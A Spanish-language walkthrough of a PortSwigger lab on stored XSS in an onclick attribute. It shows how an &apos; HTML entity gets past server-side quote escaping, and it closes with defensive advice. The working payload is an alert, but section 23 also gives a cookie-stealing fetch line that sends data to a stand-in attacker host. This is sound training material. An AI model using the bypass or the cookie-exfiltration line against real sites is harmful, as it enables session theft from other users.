



# PortSwigger Web Security Academy — Lab 36

# Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

**Categoría:** Cross-site scripting (XSS)  
**Tipo:** Stored XSS / XSS almacenado  
**Contexto vulnerable:** atributo HTML con JavaScript inline, concretamente un evento `onclick`  
**URL del laboratorio:** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

---

## 1. Enunciado del laboratorio

El laboratorio se titula:

> Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Traducido:

> XSS almacenado dentro de un evento `onclick`, con los signos `<` y `>` y las comillas dobles `"` codificados en HTML, y las comillas simples `'` y la barra invertida `\` escapadas.

La descripción del laboratorio indica que existe una vulnerabilidad de **cross-site scripting almacenado** en la funcionalidad de comentarios. Para resolverlo, tenemos que enviar un comentario que haga que se ejecute la función `alert()` cuando se haga clic en el nombre del autor del comentario.

La parte más importante del enunciado no es solo que sea stored XSS. Lo importante es **dónde acaba nuestro input** y **qué filtros aplica la aplicación**:

- Los signos `<` y `>` están codificados en HTML.
- Las comillas dobles `"` están codificadas en HTML.
- Las comillas simples `'` están escapadas.
- La barra invertida `\` también está escapada.
- El payload debe ejecutarse cuando se haga clic en el nombre del autor.

Esto ya nos dice mucho: no estamos ante un XSS clásico de meter `<script>alert(1)</script>` en un comentario. Tampoco estamos ante el laboratorio anterior donde bastaba con abusar de `href="javascript:alert()"`. Aquí el campo vulnerable acaba dentro de un **manejador de eventos JavaScript inline**, es decir, dentro de código que el navegador ejecuta al producirse un evento.

---

## 2. Imágenes usadas en el laboratorio

Las capturas utilizadas en este writeup están guardadas en la carpeta `images/`:

- `images/imagen_01_laboratorio_inicio.png` — página inicial del laboratorio.
- `images/imagen_02_comentario_legitimo.png` — formulario de comentario con un website legítimo.
- `images/imagen_03_redireccion_website_legitimo.png` — redirección al hacer clic en un website normal.
- `images/imagen_04_payload_apos_alert.png` — formulario con el payload usando `&apos;`.
- `images/imagen_05_laboratorio_resuelto.png` — laboratorio resuelto.
- `images/imagen_06_popup_alert_al_clickar_autor.png` — popup de `alert()` al hacer clic en el autor.


---

## 3. Objetivo real del laboratorio

El objetivo práctico es conseguir que, al publicar un comentario, el nombre del autor quede almacenado como un enlace o elemento clicable que contiene código JavaScript malicioso dentro de su evento `onclick`.

El objetivo técnico es entender este flujo:

1. Enviamos un comentario.
2. En el campo `Website` metemos un valor especialmente diseñado.
3. La aplicación guarda ese valor en el servidor.
4. Cuando el comentario se renderiza, el valor se reutiliza dentro de HTML.
5. Ese mismo valor aparece también dentro de un atributo `onclick`.
6. Al hacer clic en el nombre del autor, el navegador ejecuta el JavaScript del `onclick`.
7. Nuestro payload consigue salir de una cadena JavaScript interna y ejecutar `alert(1)`.

La clave no es únicamente “meter alert”. La clave es comprender que estamos pasando por varios contextos:

```text
Input del usuario
   ↓
Servidor / backend
   ↓
HTML generado
   ↓
Atributo onclick
   ↓
Código JavaScript
   ↓
Ejecución al hacer clic
```

Este laboratorio va precisamente de eso: **contextos anidados**.

---

## 4. Conceptos necesarios antes de explotar

### 4.1. Qué es Stored XSS

Un **Stored XSS** o XSS almacenado ocurre cuando el payload malicioso se guarda en el servidor y se reutiliza después en respuestas posteriores.

Esto lo diferencia de un XSS reflejado:

```text
Reflected XSS:
El payload viaja en una petición concreta y vuelve en esa misma respuesta.
Normalmente necesita que la víctima abra un enlace preparado.

Stored XSS:
El payload se guarda en la aplicación.
Cualquier usuario que vea el contenido guardado puede ejecutarlo.
```

En este laboratorio, el payload se introduce en el formulario de comentarios. La aplicación lo guarda. Después, cada vez que alguien visualiza ese post, el comentario aparece de nuevo. Por eso es almacenado.

El payload no depende de que alguien use una URL concreta como en `/search?q=payload`. Queda plantado en la aplicación.

---

### 4.2. Qué es un evento `onclick`

En HTML, un elemento puede tener atributos que contienen código JavaScript. Esos atributos se llaman **event handlers** o manejadores de eventos.

Ejemplo básico:

```html
<a onclick="alert(1)">Haz clic</a>
```

Esto significa:

- El elemento visible es un enlace o texto clicable.
- Cuando el usuario hace clic sobre él, el navegador ejecuta el contenido del atributo `onclick`.
- Ese contenido se interpreta como JavaScript.

Otro ejemplo:

```html
<button onclick="console.log('hola')">Botón</button>
```

Al hacer clic, se ejecuta:

```javascript
console.log('hola')
```

En este laboratorio el punto vulnerable no es que podamos crear una etiqueta nueva, sino que el servidor mete nuestro input dentro de código JavaScript ya existente en un `onclick`.

---

### 4.3. Por qué este lab no es igual al anterior de `href="javascript:..."`

En el lab anterior, el campo `Website` acababa directamente dentro de un atributo `href`:

```html
<a href="javascript:alert()">pepe</a>
```

Ahí no había que romper JavaScript interno. Bastaba con usar el esquema `javascript:` como valor de `href`.

En este lab, el `href` puede existir, pero la parte importante está en el `onclick`:

```html
<a
  href="http://pepe.com"
  onclick="var tracker={track(){}};tracker.track('http://pepe.com');">
  pepe
</a>
```

El `href` controla la navegación. El `onclick` ejecuta código JavaScript para tracking o analítica.

Este laboratorio abusa de que el valor del campo `Website` se mete dentro de esta parte:

```javascript
tracker.track('AQUI_VA_TU_WEBSITE')
```

Por tanto, el contexto vulnerable es una **cadena JavaScript entre comillas simples** dentro de un **atributo HTML**.

---

## 5. Qué campos tiene el formulario de comentarios

Dentro de un post del blog aparece un formulario con estos campos:

- `Comment`
- `Name`
- `Email`
- `Website`

La captura del formulario legítimo es esta:



En la prueba inicial se rellenó así:

```text
Comment: pepe1
Name: pepe
Email: pepe@gmail.com
Website: http://pepe.com
```

Esto sirve para entender cómo se comporta la aplicación con un valor normal antes de meter el payload malicioso.

---

## 6. Prueba inicial con un website normal

Primero introducimos un comentario normal:

```text
Comment: pepe1
Name: pepe
Email: pepe@gmail.com
Website: http://pepe.com
```

Al publicar el comentario, el nombre `pepe` aparece como enlace. Si hacemos clic sobre él, el navegador intenta ir a la web indicada.

En tu caso, tras hacer clic, se redirige a una web tipo `pepe.vip` / `pepe.com`, tal y como se observa en la captura:


Esto confirma que el campo `Website` se usa realmente como URL asociada al autor.

Pero hay algo más importante: al inspeccionar el DOM, vemos que el `Website` no solo se usa en el `href`, sino también dentro de un `onclick`.

El HTML renderizado tiene una forma como esta:

```html
<p>
  
  <a id="author"
     href="http://pepe.com"
     onclick="var tracker={track(){}};tracker.track('http://pepe.com');">
     pepe
  </a> | 02 May 2026
</p>
```

Esto es fundamental.

---

## 7. Análisis del HTML renderizado

Vamos a separar cada parte:

```html

```

Esto solo muestra el avatar por defecto del autor. No tiene relación con el XSS.

La parte relevante es:

```html
<a id="author"
   href="http://pepe.com"
   onclick="var tracker={track(){}};tracker.track('http://pepe.com');">
   pepe
</a>
```

Aquí tenemos tres zonas importantes:

### 7.1. Texto visible

```html
pepe
```

Es el nombre del autor. Es lo que el usuario ve y sobre lo que puede hacer clic.

### 7.2. Atributo `href`

```html
href="http://pepe.com"
```

Indica a dónde navegará el navegador si el enlace se activa.

### 7.3. Atributo `onclick`

```html
onclick="var tracker={track(){}};tracker.track('http://pepe.com');"
```

Esto se ejecuta antes o durante la navegación al hacer clic en el enlace.

El propósito legítimo de este código probablemente es hacer tracking del clic. El sitio quiere saber que el usuario hizo clic en el website del autor.

Conceptualmente, la aplicación hace algo así:

```javascript
var tracker = { track(){} };
tracker.track('http://pepe.com');
```

El problema es que `http://pepe.com` viene del usuario.

---

## 8. Qué se guarda realmente en la base de datos

Es importante no confundirse: normalmente el servidor no guarda directamente todo este HTML final en la base de datos. Lo normal es que guarde campos separados:

```text
author  = pepe
email   = pepe@gmail.com
website = http://pepe.com
comment = pepe1
```

Después, cuando alguien carga el post, el backend reconstruye el HTML:

```html
<a id="author"
   href="${website}"
   onclick="var tracker={track(){}};tracker.track('${website}');">
   ${author}
</a>
```

Es decir:

- El dato se guarda.
- Más tarde se inserta en una plantilla HTML.
- Dentro de esa plantilla aparece en más de un contexto.

Esto es muy importante: el mismo valor `website` aparece en dos sitios:

```html
href="WEBSITE"
```

y también:

```javascript
tracker.track('WEBSITE')
```

El primer contexto es HTML atributo. El segundo contexto es JavaScript string dentro de atributo HTML.

El bug real está en el segundo.

---

## 9. Contextos anidados: HTML attribute + JavaScript string

Este laboratorio es interesante porque el input está dentro de varios niveles de interpretación.

La estructura vulnerable es esta:

```html
<a onclick="var tracker={track(){}};tracker.track('USER_INPUT');">
```

Hay tres capas:

### 9.1. Capa HTML

Todo el documento es HTML. El navegador primero lo parsea como HTML.

### 9.2. Capa atributo

El valor de `onclick` está dentro de un atributo HTML:

```html
onclick="..."
```

Por eso las comillas dobles `"` son relevantes. Si pudiésemos meter una comilla doble sin filtrar, podríamos cerrar el atributo.

Ejemplo de ataque que aquí no funciona:

```text
" onmouseover="alert(1)
```

Pero el lab dice que las comillas dobles están codificadas en HTML, así que esa vía está cerrada.

### 9.3. Capa JavaScript

Dentro del atributo `onclick` hay código JavaScript:

```javascript
var tracker={track(){}};tracker.track('USER_INPUT');
```

Dentro de ese JavaScript, nuestro input aparece dentro de una cadena entre comillas simples:

```javascript
'USER_INPUT'
```

Por eso la comilla simple `'` es relevante. Si pudiésemos meter una comilla simple real, podríamos cerrar la cadena y ejecutar código.

Ejemplo conceptual:

```text
http://pepe.com'-alert(1)-'
```

Que podría quedar así:

```javascript
tracker.track('http://pepe.com'-alert(1)-'');
```

Pero el lab dice que las comillas simples se escapan. Por tanto, si metemos una `'` real, el servidor la convierte en `\'`.

---

## 10. Primer intento malicioso: comilla simple directa

Probamos a meter en el campo `Website` algo como:

```text
http://pepe.com' + alert()
```

La captura del formulario con el intento posterior se ve aquí:



Antes del payload final, la idea de probar una comilla directa sirve para confirmar el filtro.

El HTML renderizado queda conceptualmente así:

```html
<a id="author"
   href="http://pepe.com\' + alert()"
   onclick="var tracker={track(){}};tracker.track('http://pepe.com\' + alert()');">
   pepe
</a>
```

Y el JavaScript del `onclick` se interpreta como:

```javascript
tracker.track('http://pepe.com\' + alert()');
```

La cadena empieza en:

```javascript
'
```

Luego viene:

```text
http://pepe.com
```

Después aparece:

```javascript
\'
```

En JavaScript, `\'` significa “una comilla simple literal dentro de la cadena”. No cierra la string. Es solo texto.

Por tanto, esto:

```javascript
'http://pepe.com\' + alert()'
```

no se convierte en ejecución de `alert()`. Se convierte en una cadena cuyo contenido incluye el texto:

```text
http://pepe.com' + alert()
```

El `alert()` no se ejecuta porque no ha quedado fuera de la cadena. Sigue siendo texto.

Conclusión de esta prueba:

```text
La aplicación escapa correctamente la comilla simple directa.
```

Pero eso no significa que sea segura. Solo significa que ese intento concreto no funciona.

---

## 11. Por qué la barra invertida directa tampoco ayuda

El laboratorio también indica que la barra invertida `\` está escapada.

Esto evita otra técnica típica: usar una barra invertida para manipular los escapes generados por el servidor.

En otros laboratorios, si el servidor escapa `'` como `\'` pero no escapa `\`, se puede usar algo como:

```text
\'-alert(1)//
```

para provocar que se forme una secuencia `\\'`, donde el primer escape consume al segundo y la comilla queda libre.

Pero aquí el enunciado dice que tanto `'` como `\` están escapados. Por tanto, esa vía también está cerrada.

Esto nos obliga a buscar otra forma de introducir una comilla que el backend no vea como comilla real, pero que el navegador convierta después en comilla real.

Ahí entra `&apos;`.

---

## 12. La clave del laboratorio: `&apos;`

`&apos;` es una entidad HTML que representa una comilla simple.

```html
&apos;  →  '
```

Hay otras entidades similares:

```html
&quot;  →  "
&lt;    →  <
&gt;    →  >
&amp;   →  &
&#39;   →  '
```

La idea del bypass es esta:

```text
No envío una comilla simple real.
Envío la representación HTML de una comilla simple: &apos;
```

El backend probablemente tiene lógica para detectar y escapar el carácter `'` real. Pero si recibe esto:

```text
&apos;
```

no ve una comilla. Ve seis caracteres normales:

```text
& a p o s ;
```

Por tanto, no aplica el escape `\'`.

Después, el navegador recibe el HTML y el parser HTML sí convierte esa entidad en una comilla real.

Este es el punto exacto del fallo:

```text
El filtro está en el servidor.
La interpretación de entidades HTML vive en el navegador.
```

---

## 13. Orden real de procesamiento

Este laboratorio se entiende si se respeta el orden real de procesamiento.

### 13.1. Paso 1: enviamos input al servidor

Payload:

```text
http://pepe?&apos;-alert(1)-&apos;
```

### 13.2. Paso 2: el servidor aplica filtros

El servidor busca caracteres peligrosos:

- `<`
- `>`
- `"`
- `'`
- `\`

Pero nuestro payload no contiene una comilla simple real. Contiene `&apos;`.

Por tanto, desde el punto de vista del backend:

```text
http://pepe?&apos;-alert(1)-&apos;
```

parece texto aceptable.

### 13.3. Paso 3: el servidor genera HTML

El servidor genera algo como:

```html
<a id="author"
   href="http://pepe?&apos;-alert(1)-&apos;"
   onclick="var tracker={track(){}};tracker.track('http://pepe?&apos;-alert(1)-&apos;');">
   pepe
</a>
```

### 13.4. Paso 4: el navegador parsea HTML

El parser HTML decodifica entidades:

```html
&apos; → '
```

El DOM resultante contiene:

```html
<a id="author"
   href="http://pepe?'-alert(1)-'"
   onclick="var tracker={track(){}};tracker.track('http://pepe?'-alert(1)-'');">
   pepe
</a>
```

### 13.5. Paso 5: clic sobre el autor

Cuando hacemos clic sobre `pepe`, el navegador ejecuta el contenido del `onclick` como JavaScript:

```javascript
var tracker={track(){}};
tracker.track('http://pepe?'-alert(1)-'');
```

### 13.6. Paso 6: se evalúa la expresión

La parte importante es:

```javascript
tracker.track('http://pepe?'-alert(1)-'');
```

Para llamar a `tracker.track(...)`, JavaScript tiene que evaluar primero el argumento:

```javascript
'http://pepe?' - alert(1) - ''
```

Durante esa evaluación se ejecuta:

```javascript
alert(1)
```

Por eso aparece el popup.

---

## 14. Payload final

El payload usado en el campo `Website` es:

```text
http://pepe?&apos;-alert(1)-&apos;
```

También podría expresarse con `&#39;`:

```text
http://pepe?&#39;-alert(1)-&#39;
```

Pero el payload con `&apos;` es el típico de este laboratorio.

---

## 15. Por qué se usan guiones `-` alrededor de `alert(1)`

El payload no es simplemente:

```text
http://pepe?&apos;alert(1)&apos;
```

Se usa:

```text
http://pepe?&apos;-alert(1)-&apos;
```

porque queremos que el JavaScript final sea sintácticamente válido dentro de una expresión.

El resultado es:

```javascript
tracker.track('http://pepe?'-alert(1)-'');
```

JavaScript interpreta esto como una expresión de resta:

```javascript
'http://pepe?' - alert(1) - ''
```

Aunque restar strings no tenga sentido útil, JavaScript intentará evaluar todos los operandos. Para evaluar el segundo operando tiene que llamar a:

```javascript
alert(1)
```

El resultado numérico de la expresión da igual. El objetivo es que `alert(1)` se ejecute.

Este patrón ya apareció en otros laboratorios:

```javascript
''-alert(1)-''
```

o:

```javascript
'texto'-alert(1)-''
```

La función `alert(1)` se ejecuta por estar dentro de la evaluación de la expresión.

---

## 16. Por qué no usamos `;alert(1);//`

También podríamos pensar en un payload de este estilo:

```text
&apos;);alert(1);//
```

Conceptualmente, la intención sería cerrar la llamada a `tracker.track(...)`, ejecutar `alert(1)` y comentar el resto.

Algo como:

```javascript
tracker.track('');alert(1);//');
```

Sin embargo, el payload previsto en este laboratorio suele ser:

```text
http://pepe?&apos;-alert(1)-&apos;
```

porque encaja de forma limpia dentro de la llamada existente sin tener que depender de cerrar paréntesis, añadir punto y coma y comentar el resto.

El resultado final sigue siendo una expresión válida dentro del argumento de `tracker.track(...)`.

Además, usar `-alert(1)-` tiene una ventaja didáctica: demuestra que no necesitamos necesariamente “salir” de toda la llamada JavaScript. Basta con salir de la string y colocar una expresión ejecutable dentro del argumento.

---

## 17. Qué ocurre en `href` y qué ocurre en `onclick`

El payload aparece en dos sitios:

```html
href="http://pepe?'-alert(1)-'"
```

y:

```html
onclick="var tracker={track(){}};tracker.track('http://pepe?'-alert(1)-'');"
```

Es muy importante no confundirlos.

### 17.1. En `href`

En el `href`, esto:

```text
http://pepe?'-alert(1)-'
```

se trata como una URL normal. No se ejecuta como JavaScript porque no empieza por `javascript:`.

Por eso, después de hacer clic, el navegador puede intentar navegar a una URL como:

```text
http://pepe/?%27-alert(1)-%27
```

`%27` es la comilla simple URL-encodeada.

Aquí el payload no ejecuta código. Solo forma parte de la URL.

### 17.2. En `onclick`

En el `onclick`, la misma cadena sí forma parte de código JavaScript:

```javascript
tracker.track('http://pepe?'-alert(1)-'');
```

Aquí sí se ejecuta `alert(1)`.

Por eso al hacer clic pueden pasar dos cosas:

1. Primero se ejecuta el `onclick` y salta el popup.
2. Después el navegador continúa con el comportamiento normal del enlace e intenta navegar al `href`.

Esto explica por qué se ve el `alert()` y luego puede aparecer una redirección o intento de navegación a una URL inexistente.

---

## 18. Desarrollo práctico paso a paso

### 18.1. Abrir el laboratorio

Se inicia el laboratorio en PortSwigger y se abre la web vulnerable:

```text
https://0a7a00a804f19805829b9db6007b002f.web-security-academy.net/
```

La página inicial tiene el aspecto de la imagen 1.


Es un blog con varios posts. El ataque no está en un buscador, sino en la funcionalidad de comentarios de los posts.

### 18.2. Entrar en un post

Hacemos clic en un post. Dentro del post aparece un formulario para dejar comentarios.

Rellenamos primero un comentario normal para observar el comportamiento:

```text
Comment: pepe1
Name: pepe
Email: pepe@gmail.com
Website: http://pepe.com
```


Publicamos el comentario.

### 18.3. Comprobar comportamiento normal

Al volver al post, aparece el comentario con el nombre `pepe` como enlace. Si hacemos clic, nos redirige al website indicado.


Esto nos confirma que el campo `Website` se usa como enlace del autor.

### 18.4. Inspeccionar el DOM del comentario normal

Al inspeccionar el comentario, encontramos algo de este estilo:

```html
<p>
  
  <a id="author"
     href="http://pepe.com"
     onclick="var tracker={track(){}};tracker.track('http://pepe.com');">
     pepe
  </a> | 02 May 2026
</p>
```

Esto nos revela el punto vulnerable: el website está dentro de una string JavaScript en `onclick`.

### 18.5. Probar comilla simple directa

Intentamos algo como:

```text
http://pepe.com' + alert()
```

Pero al inspeccionar el DOM vemos que la comilla simple se escapa con `\'`.

Resultado conceptual:

```javascript
tracker.track('http://pepe.com\' + alert()');
```

Esto no ejecuta `alert()`, porque sigue dentro de la string.

### 18.6. Usar entidad HTML `&apos;`

Ahora usamos el payload correcto:

```text
http://pepe?&apos;-alert(1)-&apos;
```

En el formulario queda como en la imagen:


Al publicarlo, el laboratorio se marca como resuelto:


### 18.7. Ver el HTML final

El HTML renderizado queda así:

```html
<p>
  
  <a id="author"
     href="http://pepe?'-alert(1)-'"
     onclick="var tracker={track(){}};tracker.track('http://pepe?'-alert(1)-'');">
     pepe
  </a> | 02 May 2026
</p>
```

El navegador ya ha convertido `&apos;` en `'`.

### 18.8. Hacer clic en el autor

Al hacer clic en el nombre `pepe`, se ejecuta el `onclick` y aparece el popup:



Esto confirma que el XSS se ha ejecutado.

---

## 19. Comparación entre intento fallido y payload funcional

### 19.1. Intento fallido

Input:

```text
http://pepe.com' + alert()
```

Backend lo convierte en:

```text
http://pepe.com\' + alert()
```

JavaScript final:

```javascript
tracker.track('http://pepe.com\' + alert()');
```

Interpretación:

```text
Todo sigue dentro de la cadena.
alert() es texto, no código.
```

Resultado:

```text
No se ejecuta alert().
```

### 19.2. Payload funcional

Input:

```text
http://pepe?&apos;-alert(1)-&apos;
```

Backend no ve comillas reales, así que no las escapa.

HTML enviado al navegador:

```html
onclick="tracker.track('http://pepe?&apos;-alert(1)-&apos;');"
```

Parser HTML decodifica:

```html
onclick="tracker.track('http://pepe?'-alert(1)-'');"
```

JavaScript al hacer clic:

```javascript
tracker.track('http://pepe?'-alert(1)-'');
```

Resultado:

```text
Se ejecuta alert(1).
```

---

## 20. Explicación exacta del fallo del backend

El backend probablemente hace algo parecido a esto:

```javascript
website = website
  .replace(/'/g, "\\'")
  .replace(/\\/g, "\\\\")
  .replace(/"/g, "&quot;")
  .replace(/</g, "&lt;")
  .replace(/>/g, "&gt;");
```

Después mete el valor aquí:

```html
<a onclick="var tracker={track(){}};tracker.track('VALOR_WEBSITE');">
```

El problema es que el dato acaba en un contexto mixto:

```text
HTML attribute → JavaScript string
```

El backend intenta escapar caracteres peligrosos, pero lo hace en el orden y contexto equivocados.

Nuestro payload no contiene `'`, contiene `&apos;`.

El backend no lo considera una comilla.

Pero el navegador sí lo convierte en comilla al construir el DOM.

Por eso la defensa falla.

La frase clave es:

```text
Escapar caracteres sueltos no es suficiente cuando el dato termina dentro de HTML y JavaScript a la vez.
```

---

## 21. HTML encoding vs JavaScript escaping

Este laboratorio demuestra una diferencia muy importante.

### 21.1. HTML encoding

Sirve para que caracteres especiales no rompan HTML.

Ejemplos:

```html
<  → &lt;
>  → &gt;
"  → &quot;
'  → &apos; o &#39;
```

### 21.2. JavaScript escaping

Sirve para que caracteres especiales no rompan cadenas JavaScript.

Ejemplos:

```javascript
'  → \'
"  → \"
\  → \\

nueva línea → \n
```

### 21.3. El problema

Aquí el dato está dentro de ambos contextos:

```html
onclick="tracker.track('USER_INPUT')"
```

Por tanto, no basta con “escapar un poco”. Hay que codificar correctamente para el contexto exacto y, mejor aún, evitar completamente este patrón.

---

## 22. Por qué `&apos;` funciona si las comillas simples están escapadas

Porque el servidor escapa caracteres, no significados futuros.

Cuando el servidor ve:

```text
&apos;
```

no ve:

```text
'
```

ve:

```text
& a p o s ;
```

Así que no aplica:

```text
' → \'
```

Después el navegador transforma:

```html
&apos; → '
```

Eso ocurre después de los filtros del servidor.

Por eso el payload entra “disfrazado” como entidad HTML y se convierte en comilla real justo antes de que el JavaScript del evento se ejecute.

---

## 23. Qué papel tiene el usuario

El laboratorio pide que se ejecute `alert()` cuando se haga clic en el nombre del autor.

Eso significa que no es un XSS que se dispara automáticamente al cargar la página. Requiere interacción: hacer clic en el nombre.

Pero sigue siendo un Stored XSS porque el payload queda guardado.

El flujo es:

```text
Atacante publica comentario malicioso.
Víctima abre el post.
Víctima ve el comentario.
Víctima hace clic en el nombre del autor.
Se ejecuta el onclick.
Aparece alert(1).
```

En un ataque real, el `alert(1)` podría sustituirse por acciones más graves, como:

```javascript
fetch('https://attacker.com/?cookie=' + document.cookie)
```

si las cookies no estuvieran protegidas con `HttpOnly`, o por acciones dentro de la aplicación usando la sesión de la víctima.

---

## 24. Riesgo real de este patrón

Este tipo de vulnerabilidad es peligrosa porque mezcla tres malas prácticas:

1. Permitir input de usuario en campos que luego se renderizan como HTML.
2. Insertar ese input dentro de JavaScript inline.
3. Usar escaping manual basado en reemplazos de caracteres.

El patrón peligroso es:

```html
<a onclick="someFunction('${userInput}')">
```

o:

```html
<button onclick="track('${url}')">
```

o:

```html
<div onmouseover="doSomething('${value}')">
```

Cualquier input no confiable dentro de JavaScript inline es mala idea.

---

## 25. Cómo defender correctamente esta vulnerabilidad

### 25.1. No usar JavaScript inline

La mejor defensa es separar HTML y JavaScript.

Malo:

```html
<a onclick="tracker.track('USER_INPUT')">pepe</a>
```

Bueno:

```html
<a id="author" data-website="https://example.com">pepe</a>
```

Y en JavaScript separado:

```javascript
document.getElementById('author').addEventListener('click', function () {
  tracker.track(this.dataset.website);
});
```

Esto evita meter input directamente dentro de código ejecutable.

### 25.2. Validar URLs

Como el campo es `Website`, no debería aceptar cualquier cosa.

Solo debería permitir:

```text
http://...
https://...
```

Ejemplo:

```javascript
const url = new URL(userInput);
if (url.protocol !== 'http:' && url.protocol !== 'https:') {
  throw new Error('URL no permitida');
}
```

Esto bloquea valores como:

```text
javascript:alert(1)
data:text/html,<script>alert(1)</script>
vbscript:msgbox(1)
```

### 25.3. Codificar según contexto

Si por alguna razón inevitable hubiera que insertar un dato dentro de JavaScript, hay que serializarlo como dato, no concatenarlo manualmente.

Malo:

```html
<script>
var website = '${userInput}';
</script>
```

Mejor:

```html
<script>
var website = "https://example.com";
</script>
```

generado con serialización JSON segura:

```javascript
JSON.stringify(userInput)
```

Pero incluso eso debe hacerse con mucho cuidado si está dentro de HTML.

### 25.4. CSP como defensa adicional

Una Content Security Policy estricta puede bloquear JavaScript inline.

Ejemplo conceptual:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero CSP no debe ser la única defensa. La solución principal es no generar código vulnerable.

### 25.5. No confiar en escaping manual

Reemplazar caracteres a mano suele fallar porque hay múltiples capas de interpretación:

```text
HTML
URL
JavaScript
CSS
DOM
```

Este laboratorio existe precisamente para demostrar que escapar `'` no basta si luego el navegador puede reconstruir esa `'` a partir de `&apos;`.

---

## 26. Conclusión técnica

Este laboratorio se resuelve entendiendo que el input del campo `Website` acaba dentro de un `onclick`, concretamente dentro de una string JavaScript entre comillas simples.

